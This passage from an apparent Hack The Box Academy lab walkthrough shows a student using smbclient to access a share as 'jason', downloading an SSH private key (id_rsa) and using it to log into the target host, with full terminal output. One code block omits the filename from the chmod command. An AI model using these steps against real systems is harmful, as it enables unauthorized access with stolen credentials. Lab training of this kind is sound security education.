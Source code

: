 ```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ smbclient -U jason //10.129.137.91/GGJ

Enter WORKGROUP\jason's password:

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Apr 19 22:33:55 2022
  ..                                  D        0  Mon Apr 18 18:08:30 2022
  id_rsa                              N     3381  Tue Apr 19 22:33:04 2022

	14384136 blocks of size 1024. 9664764 blocks available
```

Subsequently, students need to download the SSH private key and then exit from the session/connection:

Code: shell

```shell
get id_rsa
exit
```

```
smb: \> get id_rsa

getting file \id_rsa of size 3381 as id_rsa (10.6 KiloBytes/sec) (average 10.6 KiloBytes/sec)
smb: \> exit
```

Students then need to set the appropriate permissions on the private key and use it to access the spawned target machine:

Code: shell

```shell
chmod 600
ssh -i id_rsa jason@STMIP
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ chmod 600 id_rsa
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh -i id_rsa jason@10.129.137.91

The authenticity of host '10.129.137.91 (10.129.137.91)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.137.91' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

<SNIP>
```
